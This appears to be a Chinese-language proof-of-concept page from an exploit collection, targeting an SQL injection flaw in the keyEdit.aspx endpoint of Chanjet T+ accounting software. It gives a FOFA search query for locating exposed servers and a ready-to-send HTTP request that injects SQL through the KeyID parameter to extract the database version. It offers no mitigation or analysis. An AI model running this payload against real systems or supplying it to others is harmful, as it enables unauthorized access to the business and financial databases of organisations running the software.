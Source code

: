 ## 用友畅捷通TPlus-keyEdit.aspx接口存在SQL注入漏洞

## fofa
```
app="畅捷通-TPlus"
```


## poc
```
GET /tplus/UFAQD/keyEdit.aspx?KeyID=1%27%20and%201=(select%20@@version)%20--&preload=1 HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: xx.xxx.xxx.xxx
Accept-Charset: utf-8
```

![2099c8aae5cff9620805364eacbd9ea8](https://github.com/wy876/POC/assets/139549762/b1cb6ae4-3588-4de9-a97d-e57bc6607f7c)

